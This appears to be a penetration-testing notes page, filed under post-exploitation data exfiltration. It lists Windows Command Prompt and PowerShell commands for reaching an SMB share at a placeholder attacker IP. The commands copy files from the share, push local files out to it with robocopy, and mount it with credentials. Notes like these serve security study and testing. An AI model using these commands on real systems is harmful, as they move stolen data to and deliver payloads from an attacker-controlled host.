 # Client
## 01 - Command Prompt

List the files to check if the share is accessible.

```
C:\> dir \\<attacker_IP>\<share_name>
```

Copy the file from the network share.

```
C:\> copy \\<attacker_IP>\<share_name>\<source> <destination>
```

For `/mt` flag switch run the command on windows that is related about hardware information from [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x00 - Discovery/Desktop/Windows/Host/0xH - Operating System/Kernel/Manual/Living off the Land|system and kernel version]] phase.

```
C:\> robocopy <source> \\<IP>\<share_name>\<destination> /s /r:0 /w:0 /copy:DA /dcopy:DA /mt:<threads>
```

You can mount the share remotely.

> [!INFO] Error Message
> The message is self-explanatory. Just specify username and password on the server side and it'll work just fine.
> 
> ```
> System error 1272 has occurred.
> 
> You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.
> ```

```
C:\> net.exe use \\<attacker_IP>\<share_name> [/user:<username> <password>] [/persistent:yes]

C:\> net.exe use <drive_letter>: \\<attacker_IP>\<share_name> [/user:<username> <password>] [/persistent:yes]
```

To unmount the share network.

```
C:\> net.exe use /delete \\<attacker_IP>\<share_name>

C:\> net.exe use <drive_letter>: /delete
```

## 02 - PowerShell

List the files to check if the share is accessible.

```
PS C:\> Get-ChildItem \\<attacker_IP>\<share_name>
```

Copy the file from the network share.

```
PS C:\> Copy-Item \\<attacker_IP>\<share_name>\<source> <destination>
```

You can mount the share remotely. Pass the credentials if required.

```powershell
$password = ConvertTo-SecureString "<password>" -AsPlainText -Force

$credential = New-Object System.Management.Automation.PSCredential("<username>", $password)

New-PSDrive -Name <drive_letter> -PSProvider FileSystem -Root "\\<attacker_IP>\<share_name>" [-Credential $credential]
```

To unmount the share network.

```
PS C:\> Remove-PSDrive -Name <drive_letter>
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x04 - File Transfer and Data Exfiltration/Linux/Network Ports/SMB]]

### Chris Titus

- [Chris Titus: Robocopy](https://www.christitus.com/robocopy)